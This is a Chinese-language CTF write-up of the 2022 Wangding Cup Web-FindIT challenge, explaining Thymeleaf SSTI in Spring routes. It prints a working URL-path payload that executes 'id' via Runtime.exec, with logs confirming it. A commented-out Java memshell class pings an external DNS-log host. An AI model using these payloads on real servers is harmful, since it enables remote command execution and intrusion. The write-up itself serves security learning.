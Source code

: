 ```yaml
---
layout: about
category: about
toc: true
Researchname: 2022年网鼎杯玄武组赛题复盘-[Web-FindIT]
author: Bin4xin
permalink: /about/WANGDINGCTF2022-WEB-FindIT-Walkthrough/
desc: 「CTF」
---
```


## Web-FindIT赛题复盘

本文主要参考《2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造》参考[2]进行复盘；

实际上我们一开始拿到jar包也是尝试几个路由是否存在`SSTI`漏洞，不过CTF基本上通用的payload基本上是不生效的：

![2022-09-21-10.46.42.png](https://image.yjs2635.xyz/images/2022/09/21/2022-09-21-10.46.42.png)

所以我们尝试搞清楚：

- 1.用了`@ResponseBody`注解的路由，不存在漏洞；
- 2.没有使用`@ResponseBody`进行注解的路由，因此即使没有`return`情况下也是可注入的。

如果

### # @ResponseBody

我们找到了一些大牛的解答，就不在这里班门弄斧了，引用《Thymeleaf SSTI漏洞分析》参考[5]原文：

- 问题1：

> 配置了ResponseBody注解确实无法触发，经过调试在`applyDefaultViewName`中`ModelAndView`是`Null`，而非`ModelAndView`对象，所以
>
> `hasView()`会异常，不会设置视图名。

更多移步[配置ResponseBody或RestController注解](https://xz.aliyun.com/t/10514#toc-13){:target="_blank"}

- 问题2：

> [引用参考文章[5]第四章](https://xz.aliyun.com/t/10514#toc-5){:target="_blank"}分析了`SpingMVC`视图解析的过程，在解析视图首先获取返回值并封
>
> 装为`ModleAndView`，而在当前当前环境中并没有返回值，按理说`ModelAndView`应该为空，为什么还能正常得到`ModleAndView`呢？
> 
> 原因主要在`DispatcherServlet#doDispatch`中，获取ModleAndView后还会执行`applyDefaultViewName`方法。

更多移步[urlPath中传入Payload可以执行](https://xz.aliyun.com/t/10514#toc-11){:target="_blank"}

### # SSTI payload及绕过复现

我们直接把payload拿过来：

```
/doc/;/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22id%22)%7D__::main.x
```

可以看到console报错`UnixProcess`说明命令注入成功了的：

```console
2022-09-22 06:50:03.785  INFO 1 --- [nio-8080-exec-2] c.e.demo.controller.IndexController      : info: __${T (java.lang.Runtime).getRuntime().exec("id")}__::main.x
2022-09-22 06:50:04.004 ERROR 1 --- [nio-8080-exec-2] org.thymeleaf.TemplateEngine             : [THYMELEAF][http-nio-8080-exec-2] Exception processing template "doc/java.lang.UNIXProcess@1331b3c8::[main]": Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers

org.thymeleaf.exceptions.TemplateInputException: Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers
```

不过我们同样尝试写入payload注入内存马时却报错

![2022-09-22-15.13.04.png](https://image.yjs2635.xyz/images/2022/09/22/2022-09-22-15.13.04.png)

我们观察一下发现和之前的console报错时不一样的：

```console
Error resolving template [doc/java.lang.UNIXProcess@1331b3c8]
```

成功应该是注入代码成功被识别成模版，然后汇报模版解析过程的问题（如上）；而失败则并未被识别成模版（如下）：

```console
java.lang.IllegalArgumentException: Invalid template name specification:
```

[//]: # (```java)

[//]: # (public class SpringRequestMappingMemshell {)

[//]: # (    public SpringRequestMappingMemshell&#40;&#41; {)

[//]: # (    })

[//]: # ()
[//]: # (    static {)

[//]: # (        try {)

[//]: # (            Runtime rt = Runtime.getRuntime&#40;&#41;;)

[//]: # (            String[] commands = new String[]{"/bin/sh", "-c", "ping cf7bh.11e4.bnslog.top"};)

[//]: # (            Process pc = rt.exec&#40;commands&#41;;)

[//]: # (            pc.waitFor&#40;&#41;;)

[//]: # (        } catch &#40;Exception var3&#41; {)

[//]: # (        })

[//]: # ()
[//]: # (    })

[//]: # (})

[//]: # (```)


## 参考

- [1]. [Thymeleaf 模板注入命令执行](https://zhuanlan.zhihu.com/p/248416919){:target="_blank"}
- [2]. [2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造](https://xz.aliyun.com/t/11688){:target="_blank"}
- [3]. [CTF-you-can-find-it (2022 网鼎杯 玄武组 web ctf thymeleaf SSTI bypass and memshell to retrive flag)](https://github.com/testivy/wangding_2022_ctf_findit){:target="_blank"}
- [4]. [Thymeleaf 3.0.12 — Release Notes](https://www.thymeleaf.org/releasenotes.html#thymeleaf-3.0.12){:target="_blank"}
- [5]. [Thymeleaf SSTI漏洞分析](https://xz.aliyun.com/t/10514){:target="_blank"}